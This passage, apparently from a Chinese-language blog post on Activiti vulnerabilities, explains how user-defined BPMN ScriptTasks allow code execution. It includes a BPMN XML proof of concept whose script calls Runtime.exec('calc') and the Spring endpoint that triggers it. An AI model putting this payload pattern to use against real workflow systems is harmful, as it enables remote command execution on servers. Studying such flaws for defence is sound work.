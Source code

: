 ```java
        taskService.complete(task.getId());
    }
}
```

# 2. Activiti 的漏洞点
实际上使用Activiti的场景主要有2中情况：
1、产品根据业务需求使用bpmn进行开发，最终发的时候内置bpmn在发布包中，不允许用户自行定义。
2、产品使用提供Activiti的通用能力，运行用在产品上自己编辑定义bpmn流程，并执行该流程。
一般来说，第1中情况不存在问题，下面主要套路第2种情况。
Activiti涉及到的漏洞点有主要以下几种：
- **ScriptTask： ScriptTaskActivityBehavior中使用ScriptEngine**


# 3. Activiti的漏洞点
## 3.1 ScriptTask
ScriptTast看相关的bpmn配置demo如下：
```xml
 <process id="hireProcessWithJpa" name="Developer Hiring" isExecutable="true">
    <startEvent id="sid-E0DD2D8E-0672-4BE0-97A4-933DD8771EFF"/>
    <scriptTask id="sid-6b441d89-8564-4069-bb06-fbce3cb9da37" name="scriptTest" scriptFormat="js" activiti:resultVariable="a">
      <script>a=java.lang.Runtime.getRuntime().exec('calc')</script>
    </scriptTask>
    <sequenceFlow id="sid-228a0741-8bf0-4603-9d25-19943b3917d8" sourceRef="sid-E0DD2D8E-0672-4BE0-97A4-933DD8771EFF" targetRef="sid-6b441d89-8564-4069-bb06-fbce3cb9da37"/>
    <endEvent id="sid-90bb0d22-d2d4-4eb6-9a6d-b23f2cdc8688"/>
    <sequenceFlow id="sid-71f0cd02-3d3a-45e2-98a3-349ccec4b3e5" sourceRef="sid-6b441d89-8564-4069-bb06-fbce3cb9da37" targetRef="sid-90bb0d22-d2d4-4eb6-9a6d-b23f2cdc8688"/>
  </process>
```
![image.png](https://gitee.com/shine05/myblog-gallery/raw/master/img/50f7aec93097c9d7418fd81fed14fa73.png)
触发漏洞的点在于：
```xml
    <scriptTask id="sid-6b441d89-8564-4069-bb06-fbce3cb9da37" name="scriptTest" scriptFormat="js" activiti:resultVariable="a">
      <script>a=java.lang.Runtime.getRuntime().exec('calc')</script>
    </scriptTask>
```

bpmn触发的接口类如下：
```java
    @RequestMapping(value = "/start-hire-process", method = RequestMethod.POST,
            produces = MediaType.APPLICATION_JSON_VALUE)
    public void startHireProcess(@RequestBody Map<String, String> data) {

        Applicant applicant = new Applicant(data.get("name"), data.get("email"), data.get("phoneNumber"));
        applicantRepository.save(applicant);

        Map<String, Object> vars = Collections.<String, Object>singletonMap("applicant", applicant);
        runtimeService.startProcessInstanceByKey("hireProcessWithJpa", vars);
        System.out.println("process finish");
    }
```
具体代码可以参考最后的git工程。
